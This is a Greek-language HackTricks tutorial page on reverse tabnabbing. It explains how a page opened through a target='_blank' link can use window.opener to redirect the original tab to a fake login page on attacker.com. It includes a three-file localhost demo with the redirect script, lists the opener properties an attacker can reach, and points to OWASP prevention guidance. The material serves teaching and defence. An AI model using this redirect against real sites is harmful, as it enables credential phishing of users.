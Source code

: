 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


# Περιγραφή

Σε μια κατάσταση όπου ένας **επιτιθέμενος** μπορεί να **ελέγξει** το **`href`** επιχείρημα μιας **`<a`** ετικέτας με το χαρακτηριστικό **`target="_blank" rel="opener"`** που πρόκειται να κλικάρει ένα θύμα, ο **επιτιθέμενος** **δείχνει** αυτό το **σύνδεσμο** σε μια ιστοσελίδα υπό τον έλεγχό του (μια **κακόβουλη** **ιστοσελίδα**). Στη συνέχεια, μόλις το **θύμα κλικάρει** το σύνδεσμο και αποκτήσει πρόσβαση στην ιστοσελίδα του επιτιθέμενου, αυτή η **κακόβουλη** **ιστοσελίδα** θα είναι σε θέση να **ελέγξει** την **αρχική** **σελίδα** μέσω του αντικειμένου javascript **`window.opener`**.\
Εάν η σελίδα δεν έχει **`rel="opener"` αλλά περιέχει `target="_blank"` και δεν έχει `rel="noopener"`** μπορεί επίσης να είναι ευάλωτη.

Ένας κανονικός τρόπος για να εκμεταλλευτεί κανείς αυτή τη συμπεριφορά θα ήταν να **αλλάξει την τοποθεσία της αρχικής ιστοσελίδας** μέσω `window.opener.location = https://attacker.com/victim.html` σε μια ιστοσελίδα που ελέγχεται από τον επιτιθέμενο και **φαίνεται σαν την αρχική**, έτσι ώστε να μπορεί να **μιμηθεί** τη **φόρμα σύνδεσης** της αρχικής ιστοσελίδας και να ζητήσει διαπιστευτήρια από τον χρήστη.

Ωστόσο, σημειώστε ότι καθώς ο **επιτιθέμενος μπορεί τώρα να ελέγξει το αντικείμενο παραθύρου της αρχικής ιστοσελίδας** μπορεί να το εκμεταλλευτεί με άλλους τρόπους για να εκτελέσει **πιο διακριτικές επιθέσεις** (ίσως τροποποιώντας γεγονότα javascript για να εξάγει πληροφορίες σε έναν διακομιστή που ελέγχει;)

# Επισκόπηση

## Με σύνδεσμο επιστροφής

Σύνδεσμος μεταξύ γονικών και παιδικών σελίδων όταν δεν χρησιμοποιείται το χαρακτηριστικό πρόληψης:

![https://owasp.org/www-community/assets/images/TABNABBING_OVERVIEW_WITH_LINK.png](https://owasp.org/www-community/assets/images/TABNABBING\_OVERVIEW\_WITH\_LINK.png)

## Χωρίς σύνδεσμο επιστροφής

Σύνδεσμος μεταξύ γονικών και παιδικών σελίδων όταν χρησιμοποιείται το χαρακτηριστικό πρόληψης:

![https://owasp.org/www-community/assets/images/TABNABBING_OVERVIEW_WITHOUT_LINK.png](https://owasp.org/www-community/assets/images/TABNABBING\_OVERVIEW\_WITHOUT\_LINK.png)

## Παραδείγματα <a href="#examples" id="examples"></a>

Δημιουργήστε τις παρακάτω σελίδες σε έναν φάκελο και εκτελέστε έναν διακομιστή ιστού με `python3 -m http.server`\
Στη συνέχεια, **πρόσβαση** `http://127.0.0.1:8000/`vulnerable.html, **κλικάρετε** το σύνδεσμο και σημειώστε πώς η **αρχική** **ιστοσελίδα** **URL** **αλλάζει**.

{% code title="vulnerable.html" %}
```markup
<!DOCTYPE html>
<html>
<body>
<h1>Victim Site</h1>
<a href="http://127.0.0.1:8000/malicious.html" target="_blank" rel="opener">Controlled by the attacker</a>
</body>
</html>
```
{% endcode %}

{% code title="malicious.html" %}
```markup
<!DOCTYPE html>
<html>
<body>
<script>
window.opener.location = "http://127.0.0.1:8000/malicious_redir.html";
</script>
</body>
</html>
```
{% endcode %}

{% code title="malicious_redir.html" %}
```markup
<!DOCTYPE html>
<html>
<body>
<h1>New Malicious Site</h1>
</body>
</html>
```
{% endcode %}

## Προσιτές ιδιότητες <a href="#accessible-properties" id="accessible-properties"></a>

Στο σενάριο όπου συμβαίνει **cross-origin** πρόσβαση (πρόσβαση σε διαφορετικά domains), οι ιδιότητες της κλάσης JavaScript **window**, που αναφέρονται από την αναφορά αντικειμένου JavaScript **opener**, που μπορούν να προσπελαστούν από έναν κακόβουλο ιστότοπο περιορίζονται στα εξής:

- **`opener.closed`**: Αυτή η ιδιότητα προσπελάζεται για να προσδιορίσει αν ένα παράθυρο έχει κλείσει, επιστρέφοντας μια boolean τιμή.
- **`opener.frames`**: Αυτή η ιδιότητα παρέχει πρόσβαση σε όλα τα στοιχεία iframe εντός του τρέχοντος παραθύρου.
- **`opener.length`**: Ο αριθμός των στοιχείων iframe που υπάρχουν στο τρέχον παράθυρο επιστρέφεται από αυτή την ιδιότητα.
- **`opener.opener`**: Μια αναφορά στο παράθυρο που άνοιξε το τρέχον παράθυρο μπορεί να αποκτηθεί μέσω αυτής της ιδιότητας.
- **`opener.parent`**: Αυτή η ιδιότητα επιστρέφει το γονικό παράθυρο του τρέχοντος παραθύρου.
- **`opener.self`**: Πρόσβαση στο τρέχον παράθυρο παρέχεται από αυτή την ιδιότητα.
- **`opener.top`**: Αυτή η ιδιότητα επιστρέφει το ανώτατο παράθυρο του προγράμματος περιήγησης.

Ωστόσο, σε περιπτώσεις όπου τα domains είναι ταυτόσημα, ο κακόβουλος ιστότοπος αποκτά πρόσβαση σε όλες τις ιδιότητες που εκτίθενται από την αναφορά αντικειμένου JavaScript [**window**](https://developer.mozilla.org/en-US/docs/Web/API/Window).

# Πρόληψη

Οι πληροφορίες πρόληψης τεκμηριώνονται στο [HTML5 Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/HTML5\_Security\_Cheat\_Sheet.html#tabnabbing).

## Αναφορές

* [https://owasp.org/www-community/attacks/Reverse_Tabnabbing](https://owasp.org/www-community/attacks/Reverse_Tabnabbing)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
